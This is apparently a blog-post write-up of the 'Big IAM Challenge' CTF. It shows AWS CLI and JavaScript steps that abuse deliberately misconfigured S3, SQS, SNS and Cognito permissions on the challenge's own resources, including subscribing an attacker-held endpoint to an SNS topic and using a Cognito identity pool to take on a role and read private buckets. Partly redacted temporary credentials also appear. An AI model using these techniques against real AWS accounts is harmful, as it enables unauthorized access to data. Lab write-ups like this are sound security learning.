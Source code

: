 ```yaml
---
layout: post
title:  the big iam challenge CTF writeup
tags: [tech,ctf,iam]
---
```


the big iam challenge CTF writeup.  

challenge : https://thebigiamchallenge.com/


## challenge 1

```
aws s3 ls s3://thebigiamchallenge-storage-9979f4b/files/
```

```
aws s3 cp s3://thebigiamchallenge-storage-9979f4b/files/flag1.txt /tmp/
```

## challenge 2

```
aws sqs receive-message --queue-url https://sqs.us-east-1.amazonaws.com/092297851374/wiz-tbic-analytics-sqs-queue-ca7a1b2

```
you can get the flag by accessing the URL in the response.

## challenge 3
subscribe with a url where you can read the post log

```
aws sns subscribe --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications --protocol https  --notification-endpoint https://YOUR_HOST/a?aa@tbic.wiz.io
```
after sending the subscribe request, request the confirm url in the post body. After that, you will get another post request. You can get the flag in the request body.

## challenge 4
参考writeup，需要使用--no-sign-request
```
aws s3 ls s3://thebigiamchallenge-admin-storage-abf1321/files/ --no-sign-request

aws s3 cp s3://thebigiamchallenge-admin-storage-abf1321/files/flag-as-admin.txt /tmp/ --no-sign-request && cat /tmp/flag-as-admin.txt

```

## challenge 5
参考writeup，identity pool 在网页代码中，就是那张图片的生成代码
```

  AWS.config.region = 'us-east-1';
  AWS.config.credentials = new AWS.CognitoIdentityCredentials({IdentityPoolId: "us-east-1:b73cb2d2-0d00-4e77-8e80-f99d9c13da3b"});
  // Set the region
  AWS.config.update({region: 'us-east-1'});

  $(document).ready(function() {
    var s3 = new AWS.S3();
    params = {
      Bucket: 'wiz-privatefiles',
      Key: 'cognito1.png',
      Expires: 60 * 60
    }

    signedUrl = s3.getSignedUrl('getObject', params, function (err, url) {
      $('#signedImg').attr('src', url);
    });
});
```
```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "VisualEditor0",
            "Effect": "Allow",
            "Action": [
                "mobileanalytics:PutEvents",
                "cognito-sync:*"
            ],
            "Resource": "*"
        },
        {
            "Sid": "VisualEditor1",
            "Effect": "Allow",
            "Action": [
                "s3:GetObject",
                "s3:ListBucket"
            ],
            "Resource": [
                "arn:aws:s3:::wiz-privatefiles",
                "arn:aws:s3:::wiz-privatefiles/*"
            ]
        }
    ]
}
```


```
const bucketName = 'wiz-privatefiles'
const params = {
  Bucket: bucketName,
  Delimiter: '/'
};
s3.listObjects(params, function(err, data) {
  if (err) {
    console.log("Error", err);
  } else {
    console.log("Success", data.CommonPrefixes); // 这将列出所有以 '/' 分隔的前缀，模拟文件夹结构
    console.log("Objects", data.Contents); // 这将列出没有分隔符的对象
  }
});

```
cors报错，将请求转换为curl，命令行执行

```
var s3 = new AWS.S3();
    params2 = {
      Bucket: 'wiz-privatefiles',
      Key: 'flag1.txt',
      Expires: 60 * 60
    }

    signedUrl = s3.getSignedUrl('getObject', params2, function (err, url) {
      $('#signedImg').attr('src', url);
    });
```
访问图片URL即可获得flag.

## challenge 6
Now try it with the authenticated role: arn:aws:iam::092297851374:role/Cognito_s3accessAuth_Role
```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "Federated": "cognito-identity.amazonaws.com"
            },
            "Action": "sts:AssumeRoleWithWebIdentity",
            "Condition": {
                "StringEquals": {
                    "cognito-identity.amazonaws.com:aud": "us-east-1:b73cb2d2-0d00-4e77-8e80-f99d9c13da3b"
                }
            }
        }
    ]
}
```

```
aws cognito-identity   get-id  --identity-pool-id us-east-1:b73cb2d2-0d00-4e77-8e80-f99d9c13da3b

{
    "IdentityId": "us-east-1:157d6171-eec7-cff5-cc89-3c43cbb5994d"
}


aws cognito-identity  get-open-id-token --identity-id us-east-1:157d6171-eec7-cff5-cc89-3c43cbb5994d


{
    "IdentityId": "us-east-1:157d6171-ee10-c5e8-e736-6c238566ac31",
    "Token": "eyJraWQiOiJ1cy1lYXN0LTEtNiIsInR5cCI6Ikp_REDACTED_ArpMZCn9OK_wWftEBe-4MkyLrOVenoZsXU6uREMIwGGoBJtppey1en4v4zbxwew"
}

// 中间一直错误，发现复制出来的token有一些多余的换行符，需要手工删掉

aws sts assume-role-with-web-identity \
    --duration-seconds 3600 \
    --role-session-name "Cognito_s3accessAuth_Role" \
    --role-arn arn:aws:iam::092297851374:role/Cognito_s3accessAuth_Role \
    --web-identity-token "eyJraWQiOiJ1cy1lYXN0L_REDACTED_XZYH0Cabnx9FYZc7psT3bMBkcIJBHO9AvPJAmQnW3lJ0Ul8U-NfmaNAgVpcMnb6x4DHjzE0QlO9SOVF2xO2plawRboqbwOTRrCEHsxVsF_sAy9AkZ97b5hHVFQAj9MsUHvoDEn1IYm0Y99GmQqd8d5JiMic6miCk7sCvcDu7lKFMBAzGN-_yVN8oZR6yHtbxdJt7nHAu79Ctg"


{
    "Credentials": {
        "AccessKeyId": "ASIARK7LBO_REDACTED",
        "SecretAccessKey": "etKXk9sR0OKWh8gD_REDACTED",
        "SessionToken": "FwoGZXIvYXdzEG4aDA6rzFfKu2jQhB9cICKxAs1RvJ+CFR6bpFoZHyuOKdU1E/_REDACTED_FNDfmQC1RfumUCORAyKVAOke4lskh4X54rKSR8gXMGRdF",
        "Expiration": "2024-07-30T13:14:45Z"
    },
    "SubjectFromWebIdentityToken": "us-east-1:157d6171-eec7-cff5-cc89-3c43cbb5994d",
    "AssumedRoleUser": {
        "AssumedRoleId": "AROARK7LBOHXASFTNOIZG:Cognito_s3accessAuth_Role",
        "Arn": "arn:aws:sts::092297851374:assumed-role/Cognito_s3accessAuth_Role/Cognito_s3accessAuth_Role"
    },
    "Provider": "cognito-identity.amazonaws.com",
    "Audience": "us-east-1:b73cb2d2-0d00-4e77-8e80-f99d9c13da3b"
}


export AWS_ACCESS_KEY_ID=ASIARK7L_REDACTED && export AWS_SECRET_ACCESS_KEY="etKXk9sR0OK_REDACTED" && export AWS_SESSION_TOKEN="FwoGZXIvYXdzEG4aDA6rzFfKu2jQhB9cICKxAs1RvJ+CFR6bpFoZHyuOKdU_REDACTED" && aws sts get-caller-identity


export AWS_ACCESS_KEY_ID=ASIARK7L_REDACTED && export AWS_SECRET_ACCESS_KEY="etKXk9sR0OK_REDACTED" && export AWS_SESSION_TOKEN="FwoGZXIvYXdzEG4aDA6rzFfKu2jQhB9cICKxAs1RvJ+CFR6bpFoZHyuOKdU_REDACTED" && aws s3 ls

export AWS_ACCESS_KEY_ID=ASIARK7L_REDACTED && export AWS_SECRET_ACCESS_KEY="etKXk9sR0OK_REDACTED" && export AWS_SESSION_TOKEN="FwoGZXIvYXdzEG4aDA6rzFfKu2jQhB9cICKxAs1RvJ+CFR6bpFoZHyuOKdU_REDACTED" && aws s3 cp s3://wiz-privatefiles-x1000/flag2.txt /tmp/ff.txt && cat /tmp/ff.txt

```


https://docs.aws.amazon.com/zh_cn/cognito/latest/developerguide/authentication-flow.html
https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sts/assume-role-with-web-identity.html
https://docs.aws.amazon.com/zh_cn/cognito/latest/developerguide/authentication-flow.html

